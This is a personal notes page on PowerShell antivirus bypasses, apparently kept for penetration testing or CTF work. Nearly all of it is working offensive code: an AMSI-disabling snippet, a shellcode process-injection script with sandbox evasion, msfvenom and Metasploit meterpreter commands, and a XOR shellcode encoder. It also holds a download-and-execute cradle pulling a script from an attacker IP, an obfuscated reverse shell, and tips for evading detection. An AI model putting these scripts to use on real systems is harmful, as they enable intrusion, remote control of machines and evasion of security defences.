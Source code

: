 ```yaml
---
creation date: April 6th 2023
last modified date: April 6th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Powershell AV bypasses]]  
___

## Description:  


**Reflective Injector**
ReflectiveInjector.ps1 PowerShell. Need to add XOR shellcode to line 34 ($buf = 0xEA,0x5E,0x95...). change line 35 if you change the xor key.
```
foreach($type in [Ref].Assembly.GetTypes()) {if ($type.Name -like "*iUtils") {$aType=$type}}
foreach($field in $aType.GetFields('NonPublic,Static')) {if ($field.Name -like "*Context") {$cntxt=$field}}
[IntPtr]$ptr=$cntxt.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)

function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq 'GetProcAddress') {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$starttime = Get-Date -Displayhint Time
Start-sleep -s 5
$finishtime = Get-Date -Displayhint Time
if ( $finishtime -le $starttime.addseconds(4.5) ) { exit }

###
# edits go here
$sacproc = "C:\Windows\System32\upnpcont.exe"
#[Byte[]] $buf =  0xEA,0x5E,0x95...
for ($abc = 0; $abc -lt $buf.Count; $abc++) { $buf[$abc] = $buf[$abc] -bxor 22}
###

$proc = Start-Process $sacproc -PassThru -WindowStyle Hidden
$procid = $proc.Id

$hprocess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess), (getDelegateType @([UInt32], [bool], [UInt32])([IntPtr]))).Invoke(0x001F0FFF, $false, $procid)
$addr= [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAllocEx), (getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke($hprocess, [IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Int32]$lpNumberOfBytesWritten = 0
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WriteProcessMemory), (getDelegateType @([IntPtr], [IntPtr], [Byte[]], [UInt32], [UInt32].MakeByRefType())([bool]))).Invoke($hprocess, $addr, $buf, $buf.length, [ref]$lpNumberOfBytesWritten) 
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateRemoteThread), (getDelegateType @([IntPtr], [IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr])([IntPtr]))).Invoke($hprocess,[IntPtr]::Zero,0,$addr,[IntPtr]::Zero,0,[IntPtr]::Zero)
```
Generate a payload:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.128 LPORT=443 -f ps1

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
```
Powershell XOR shell (`pwsh` on kali will drop you to a powershell and can run the script)
```
# Edit these:
#[Byte[]] $buf = 0xfc,0xe8,0x8f...
$xor_key = 22

$buffer_line = '[Byte[]] $buf =  '

for ($def = 0; $def -lt $buf.Count; $def++) {
	$buf[$def] = $buf[$def] -bxor $xor_key
	$y = [System.BitConverter]::ToString($buf[$def]);
	$buffer_line += '0x' + $y
	if ($def -ne ($buf.Count - 1)) {
		$buffer_line += ','
	}
}

$decrypt_block = 'for ($abc = 0; $abc -lt $buf.Count; $abc++) { $buf[$abc] = $buf[$abc] -bxor ' + $xor_key + '}'

Write-Output $buffer_line
Write-Output $decrypt_block
```
Script that runs on victim
```
foreach($type in [Ref].Assembly.GetTypes()) {if ($type.Name -like "*iUtils") {$aType=$type}}
foreach($field in $aType.GetFields('NonPublic,Static')) {if ($field.Name -like "*Context") {$cntxt=$field}}
[IntPtr]$ptr=$cntxt.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)
iex(new-object net.webclient).downloadstring("http://10.10.14.10/ReflectiveInjector.ps1")
```

make sure to host the ReflectiveInjector on port 80 and set up a Metasploit handler on 443

**Run a process as a different user (with creds)**
[RunasCs](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)
```
Invoke-RunasCs -Username snovvcrash -Password 'Passw0rd!' -Domain megacorp.local -Command powershell.exe -Remote 10.10.13.37:1337
```


**ASMI bypass**
```
while ($true) {$px = "c0","a8","38","1";$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.';$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n";$s = [System.Text.ASCIIEncoding];[byte[]]$b = 0..65535|%{0};$x = "n-eiorvsxpk5";Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158]);$y = New-Object System.Net.Sockets.TCPClient($p,80);$z = $y.GetStream();$d = $s::UTF8.GetBytes($w);$z.Write($d, 0, $d.Length);$t = (n-eiorvsxpk5 whoami) + "$ ";while(($l = $z.Read($b, 0, $b.Length)) -ne 0){;$v = (New-Object -TypeName $s).GetString($b,0, $l);$d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t);$z.Write($d, 0, $d.Length);}$y.Close();Start-Sleep -Seconds 5}
```
You have to change your IP address to hex (`$px = "c0","a8","38","1"`add 0 in front if needed) and change your port number (`($p,80)`)

**Obfuscated PowerShell Reverse Shells**
[gh0x0st](https://github.com/gh0x0st/Get-ReverseShell)

**Run a new PowerShell command in background**
```
start-job -scriptblock { C:\TeamCity\buildAgent\work\74c2f03019966b3e\hello_world.ps1 }

Start-Process powershell.exe -ArgumentList "-file C:\TeamCity\buildAgent\work\74c2f03019966b3e\hello_world.ps1"

```
Can sometimes avoid detection by not having your process run a new job as a child



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 6th 2023 (09:32 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
